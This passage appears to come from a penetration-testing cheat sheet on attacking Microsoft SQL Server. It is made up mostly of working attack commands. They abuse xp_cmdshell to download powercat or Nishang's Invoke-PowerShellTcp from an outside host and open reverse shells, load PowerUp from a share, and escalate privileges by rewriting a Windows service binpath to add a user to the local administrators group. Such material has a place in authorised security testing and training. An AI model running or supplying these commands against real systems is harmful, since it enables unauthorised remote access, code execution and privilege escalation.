 	```sql
	-- Query to be executed in HeidiSQL
	EXEC master..xp_cmdshell 'powershell -c test-netconnection 192.168.50.53 -port 80'
	EXEC master..xp_cmdshell 'powershell -ep bypass -c iex (New-Object Net.WebClient).DownloadString(''http://192.168.50.53/powercat.ps1''); powercat -c 192.168.50.53 -p 4444 -e cmd -v'
	EXEC master..xp_cmdshell 'powershell -ep bypass -c . \\192.168.50.50\share\PowerUp.ps1; Invoke-AllChecks'
	```

	```powershell
	# On the local machine:
	powercat -l -p 4444 -t 1000

	# Once you get a stable shell you can escalate your privileges
	cmd /c sc qc ALG
	cmd /c sc config ALG binpath= "net localgroup administrators CYBERLAB\user01 /add"
	cmd /c sc qc ALG
	cmd /c sc stop ALG
	cmd /c sc start ALG
	net localgroup administrators
	```

-  `Nishang`: 

	Automatically enable xp_cmdshell and open a shell:

	```powershell
	# Nishang
	Execute-Command-MSSQL -ComputerName "SQLServer1" -UserName "sa" -Password "Password1"
	```
	
	Authenticate through windows authentication (for an alternative user you need to launch a new PowerShell session with different credentials) and open a shell:
	
	```powershell
	# Nishang
	Execute-Command-MSSQL -ComputerName "SQLServer1" -WindowsAuthentication 
	```
	
	Authenticate and execute a payload:
	
	```powershell
	# Nishang
	Execute-Command-MSSQL -ComputerName "SQLServer1" -WindowsAuthentication -payload "iex ((New-Object Net.Webclient).downloadstring(''http://192.168.254.1/Invoke-PowerShellTcp.ps1''));Invoke-PowerShellTcp -Reverse -IPAddress 192.168.254.1 -Port 443"
	```
	